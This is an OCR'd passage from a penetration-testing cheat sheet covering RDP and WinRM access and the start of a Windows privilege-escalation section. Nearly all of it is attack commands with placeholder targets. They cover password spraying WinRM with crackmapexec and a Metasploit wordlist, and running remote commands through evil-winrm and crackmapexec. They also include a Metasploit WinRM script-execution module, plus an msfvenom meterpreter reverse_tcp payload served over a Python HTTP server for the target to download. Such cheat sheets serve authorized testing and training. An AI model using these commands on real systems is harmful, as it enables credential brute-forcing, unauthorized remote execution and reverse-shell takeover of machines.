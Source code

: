 ```
xfreerdp /u:<USER> /p:<PW> /v:<TARGET_IP>:<PORT>

xfreerdp /u:<USER> /p:<PW> /v:<TARGET_IP>:<PORT> /w:1920 /h:1080 /fonts /smart-sizing
```

**WINRM**

```
# WINRM
crackmapexec [OPTIONS]
evil-winrm -i <IP> -u <USER> -p <PASSWORD>

nmap --top-ports 7000 <TARGET_IP>
nmap -sV -p 5985 <TARGET_IP>
```

```
crackmapexec winrm <TARGET_IP> -u <USER> -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

crackmapexec winrm <TARGET_IP> -u <USER> -p <PW> -x "whoami"
crackmapexec winrm <TARGET_IP> -u <USER> -p <PW> -x "systeminfo"
```

```
# Command Shell
evil-winrm.rb -u <USER> -p '<PW>' -i <TARGET_IP>
```

```
## METASPLOIT
# Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use exploit/windows/winrm/winrm_script_exec

set USERNAME <USER>
set PASSWORD <PW>
set FORCE_VBS true
```

**Windows Privilege Escalation**



**Kernel**

```
# WIN KERNEL
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f exe -o payload.exe

python3 -m http.server
# Download payload.exe on target
```
